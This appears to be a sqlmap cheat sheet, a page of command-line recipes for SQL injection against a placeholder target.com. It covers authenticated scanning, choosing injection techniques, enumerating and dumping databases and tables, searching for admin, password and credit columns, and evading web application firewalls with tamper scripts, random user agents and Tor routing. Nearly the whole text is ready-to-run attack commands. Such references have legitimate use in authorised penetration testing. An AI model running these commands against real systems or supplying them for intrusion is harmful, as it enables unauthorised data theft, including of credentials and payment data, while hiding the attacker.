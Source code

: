 ### Authentication
```bash
# Basic authentication
sqlmap -u "http://target.com" --auth-type=basic --auth-cred="username:password"

# Form authentication
sqlmap -u "http://target.com/login.php" --data="username=admin&password=admin" --forms

# HTTP Digest authentication
sqlmap -u "http://target.com" --auth-type=digest --auth-cred="username:password"
```

### Injection Techniques
```bash
# Specify techniques (B=Boolean, E=Error, U=Union, S=Stacked, T=Time)
sqlmap -u "http://target.com/page.php?id=1" --technique=BEU

# Set database
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql

# Use specific payloads
sqlmap -u "http://target.com/page.php?id=1" --prefix=")" --suffix="-- -"
```

### Data Extraction
```bash
# Get databases
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Get tables
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# Get columns
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump data
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name -C "col1,col2" --dump

# Search for specific data
sqlmap -u "http://target.com/page.php?id=1" --search -C admin,password,credit
```

### WAF Evasion Options
```bash
# Tamper scripts (can be chained with comma)
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,between

# Random user agent
sqlmap -u "http://target.com/page.php?id=1" --random-agent

# Time delay
sqlmap -u "http://target.com/page.php?id=1" --time-sec=10

# Tor routing
sqlmap -u "http://target.com/page.php?id=1" --tor --tor-type=SOCKS5 --check-tor
```
